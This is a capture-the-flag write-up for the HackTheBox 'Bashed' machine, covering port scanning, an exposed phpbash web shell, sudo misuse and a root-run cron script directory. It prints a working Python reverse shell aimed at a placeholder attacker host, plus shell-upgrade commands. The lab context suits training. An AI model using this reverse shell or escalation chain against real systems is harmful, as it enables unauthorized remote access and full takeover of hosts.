 # HackTheBox - Bashed Writeup


Box author | {{< person url="https://app.hackthebox.com/users/2904" name="Arrexel" picture="https://www.hackthebox.com/storage/avatars/4a677d39a1156ca6a4f2fdce085aa3da.png" >}}

<!--more-->

## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 

![phpbash webpage](website.png "phpbash webpage")

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![check upload directory](upload_dir.png "check upload directory")

### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![gobuster](gobuster.png "gobuster")

### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![directory listing](dev.png "directory listing")

![phpbash web shell](web_shell.png "phpbash web shell")

## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![bash oneliner base64](b64.png "bash oneliner base64")

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![execute reverse shell](bs64_webshell.png "execute reverse shell")

![shell as www-data](got_the_shell.png "shell as www-data")

### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![check sudo permission](scriptmanager.png "check sudo permission")

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![change user to scriptmanager](change_2_scriptmanager.png "change user to scriptmanager")

### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![found /scripts directory](script_dir.png "found /scripts directory")

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![contents in /scripts](contents.png "contents in /scripts")

## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![shell as root](petai_root.png "shell as root")


